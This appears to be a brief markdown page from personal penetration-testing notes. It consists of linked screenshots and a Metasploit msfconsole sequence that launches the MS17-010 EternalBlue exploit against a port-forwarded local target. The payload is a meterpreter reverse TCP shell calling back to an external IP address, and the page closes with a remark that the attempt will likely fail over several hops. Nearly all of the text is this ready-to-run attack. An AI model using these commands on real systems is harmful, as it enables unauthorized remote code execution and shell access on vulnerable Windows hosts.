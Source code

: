 ![Pasted image 20250601125927](../../zzAttachments/Pasted%20image%2020250601125927.png)

##### msfconsole
```
use exploit/windows/smb/ms17_010_eternalblue
set payload windows/x64/meterpreter/reverse_tcp
set rhost 127.0.0.1
set rport 4445
set lhost 72.69.76.76
set lport 45241
```
![Pasted image 20250601130825](../../zzAttachments/Pasted%20image%2020250601130825.png)
```
run
```
It will most likely fail and continue to fail due the the amount of hops being made.
